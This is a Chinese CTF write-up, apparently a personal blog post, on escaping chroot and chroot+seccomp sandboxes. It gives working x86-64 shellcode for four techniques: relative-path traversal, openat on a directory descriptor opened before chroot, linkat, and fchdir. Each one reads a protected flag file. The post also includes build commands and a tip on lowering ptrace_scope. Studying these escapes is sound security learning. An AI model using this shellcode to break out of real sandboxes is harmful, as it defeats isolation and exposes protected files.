 ```yaml
---
layout: post
tags: [pwn]
title: "sandboxing —— escape"
author: wsxk
date: 2024-11-25
comments: true
---
```


- [1. chroot 逃逸](#1-chroot-逃逸)
  - [1.1 相对路径逃逸](#11-相对路径逃逸)
  - [1.2 利用chroot之前打开的目录/文件描述符实现逃逸](#12-利用chroot之前打开的目录文件描述符实现逃逸)
- [2. chroot + seccomp 逃逸](#2-chroot--seccomp-逃逸)
  - [2.1 利用chroot之前打开的目录/文件描述符实现逃逸](#21-利用chroot之前打开的目录文件描述符实现逃逸)
    - [2.1.1 只允许\["openat", "read", "write", "sendfile\] ](#211-只允许openat-read-write-sendfile-)
    - [2.1.2 只允许\["linkat", "open", "read", "write", "sendfile"\]](#212-只允许linkat-open-read-write-sendfile)
    - [2.1.3 只允许\["fchdir", "open", "read", "write", "sendfile"\]](#213-只允许fchdir-open-read-write-sendfile)


# 1. chroot 逃逸<br>
chroot详情可看[https://wsxk.github.io/sandboxing/](https://wsxk.github.io/sandboxing/)<br>

## 1.1 相对路径逃逸<br>
前文提到，chroot是改变了"/"在程序的根目录，这意味着**绝对路径的访问会被限制**，但是相对路径(这取决于你是在哪个目录下运行程序的)是可以绕过这个机制的。**如果程序的当前工作目录没有被改变（即没有调用chdir("/")的话），这个方法大有可为**<br>
示例如下:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241125213653.png)
上述场景中:<br>
```
1. 真flag 位于 /flag
2. 假flag 位于 /tmp/jaio-eyqnjg/flag
3. 程序的当前工作目录是 /home/wsxk/Desktop/CTF/sandboxing
```
因此绕过时使用的是`../../../../../flag`<br><br><br>
当然，如果容器里允许你执行shellocde，那么可以尝试利用之前提到相对路径方法，编写shellcode实现逃逸<br>
当然，这个方法也要求**程序的当前工作目录没有被改变（即没有调用chdir("/")）**
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 2   # open
lea rdi, [rip+file_path]  # path
mov rsi, 0   # flags O_RDONLY
mov rdx, 0  # 当指定O_CREAT时，设定文件的权限，这里就没意义
syscall

mov rdi, 1  # 输出的文件描述符
mov rsi, rax # 输入的文件描述符
mov rdx, 0   # offset，0就是从头开始
mov r10, 128 # length，长度
mov rax, 40 # sendfile
syscall 
file_path:
.string "../../../flag"
```
编译命令如下:<br>
```
gcc -nostdlib -static shellcode.s -o shellcode-elf
objcopy --dump-section .text=shellcode-raw shellcode-elf
cat shellcode-raw | /path/to/container/path 
```

## 1.2 利用chroot之前打开的目录/文件描述符实现逃逸<br>
条件**进程在调用chroot、chdir之前，打开了一个目录,例子: `open("/", O_RDONLY|O_NOFOLLOW)`**<br>
可以利用这个实现打开的文件描述符，结合`openat`系统调用，在shellcode中编写代码完成逃逸<br>
`openat`的原型解释如下:<br>
```c
int openat(int dirfd, const char *pathname, int flags, mode_t mode);

dirfd：之前打开的目录描述符，一般情况下都是3
pathname：文件路径，如果为绝对路径，则忽略dirfd；如果是相对路径，则相对于 dirfd 指定的目录。
flags：文件打开模式O_RDONLY ，O_WRONLY，O_RDWR
mode：行为模式，例子：O_CREAT（如果文件不存在则创建）。当然一般填0
```

实际执行时的shellcode为<br>
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 257 #openat
mov rdi, 3 # assume opened dir fd = 3
lea rsi, [rip+file_path]
mov rdx, 0 # O_RDONLY
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0  # offset
mov r10, 128 # length
mov rax, 40 # sendfile
syscall
file_path:
.string "flag"
```
可以用`cat shellcode.raw  | strace -f  /challenge/babyjail_level3 /`调试系统调用出现的问题<br>
`-f`选项指的是跟随fork继续追踪系统调用。<br>
**注意像strace gdb等调试工具，在调试具有suid权限的程序时，会主动舍弃suid权限，要想继续追踪，需要修改内核文件sudo sysctl kernel.yama.ptrace_scope=0.(当然，如果你直接以root权限允许strace、gdb等，就没这个问题)**<br>

# 2. chroot + seccomp 逃逸<br>
seccomp添加了限制，只允许你调用没被禁用的系统调用，如何根据这些系统调用获取flag就是本章节要讲解的目标<br>
## 2.1 利用chroot之前打开的目录/文件描述符实现逃逸<br>
这个思路之前也提到过，总之就是非常好用。<br>
### 2.1.1 只允许["openat", "read", "write", "sendfile] <br>
在只有4个系统调用被允许时，shellcode编写如下<br>

```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 257 #openat
mov rdi, 3 # assume opened dir fd = 3
lea rsi, [rip+file_path]
mov rdx, 0 # O_RDONLY
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 128
mov rax, 40
syscall
file_path:
.string "flag"
```

### 2.1.2 只允许["linkat", "open", "read", "write", "sendfile"]<br>
**linkat 是 Linux 系统调用的一部分，用于创建一个硬链接。它比传统的 link 函数功能更灵活，允许通过文件描述符指定路径，支持相对路径，并提供额外的标志来控制操作行为。**<br>

```c
int linkat(int olddirfd, const char *oldpath,
           int newdirfd, const char *newpath, int flags);

olddirfd: 创建硬链接的源文件所在的目录描述符
oldpath： 创建硬链接的源文件路径，相对路径则为olddirfd/oldpath，绝对路径则为oldpath
newdirfd：创建硬链接的目标文件所在的目录描述符
newpath： 创建硬链接的目标文件路径，同oldpath
flags： 当前只有一个 AT_SYMLINK_FOLLOW，如果 oldpath 是一个符号链接，则对其解析为目标文件（默认情况下符号链接被当作普通文件）
```

实际编写的shellcode如下:<br>
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 265 #linkat
mov rdi, 3 # assume opened dir fd = 3
lea rsi, [rip+file_path]
mov rdx, 3 #assume opened dir fd = 3
lea r10, [rip+test_path]
mov r8, 0 #flags=0
syscall

mov rax, 2 # open
lea rdi, [rip+test_path]  # path
mov rsi, 0   # flags O_RDONLY
mov rdx, 0  # 当指定O_CREAT时，设定文件的权限，这里就没意义
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 128
mov rax, 40 # sendfile
syscall
file_path:
.string "flag"
test_path:
.string "/test"
```

### 2.1.3 只允许["fchdir", "open", "read", "write", "sendfile"]<br>
`fchdir`的作用与`chdir`类似用于改变当前工作目录,`fchdir`以文件描述符<br>
```c
int fchdir(int fd);
fd： 你要修改的目录的描述符
```
实际shellcode如下:<br>
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 81 #fchdir
mov rdi, 3 # assume opened dir fd = 3
syscall

mov rax, 2 # open
lea rdi, [rip+file_path]  # path
mov rsi, 0   # flags O_RDONLY
mov rdx, 0  # 当指定O_CREAT时，设定文件的权限，这里就没意义
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 128
mov rax, 40 # sendfile
syscall
file_path:
.string "flag"
test_path:
.string "/test"
```


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>